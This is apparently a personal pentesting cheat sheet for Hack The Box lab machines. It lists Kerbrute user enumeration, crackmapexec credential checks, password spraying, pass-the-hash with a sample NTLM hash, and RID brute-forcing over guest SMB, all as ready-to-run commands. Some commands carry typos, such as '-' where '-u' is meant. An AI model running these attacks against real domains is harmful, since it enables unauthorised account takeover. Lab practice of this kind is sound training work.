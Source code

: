 [Kerbute](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3) [Download](https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64)
```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64  
chmod +x kerbrute_linux_amd64 
```
https://github.com/danielmiessler/SecLists/blob/master/Usernames/cirt-default-usernames.txt

```
./kerbrute_linux_amd64 userenum /opt/SecLists/Usernames/cirt-default-usernames.txt --dc dc01.manager.htb -d manager.htb
```


##### Confirm Users

***crackmapexec**
```
crackmapexec smb 10.10.130.255 - usernames.txt -p 'foundpassword'
crackmapexec smb 10.5.20.134 -u Administrator -H e3c61a68f1b89ee6c8ba9507378dc88d
crackmapexec smb 10.10.130.255 - usernames.txt -H hashes.txt
```
```
# if we found users and corresponding passwords or hash (-H) then we can validate like this

crackmapexec smb 10.10.11.158 -u user.txt -p pass.txt --continue-on-success --no-bruteforce
```
**Kerbute**

[Kerbute](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3) [Download](https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64)
```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64  
chmod +x kerbrute_linux_amd64 
```
```
./kerbrute_linux_amd64 userenum --dc 10.10.10.248 -d intelligence.htb users
```

##### Password Spray

**crackmapexec**
```
# Check if any other user uses same password

crackmapexec smb 10.10.130.255 - usernames.txt -p 'foundpassword' --continue-on-success
```

##### Bruteforce

**BruteForce RIDs**

https://0xdf.gitlab.io/2025/02/15/htb-cicada.html#smb---tcp-445

```
crackmapexec smb [ip] -u guest -p '' --rid-brute
```
```
crackmapexec smb CICADA-DC -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users
```
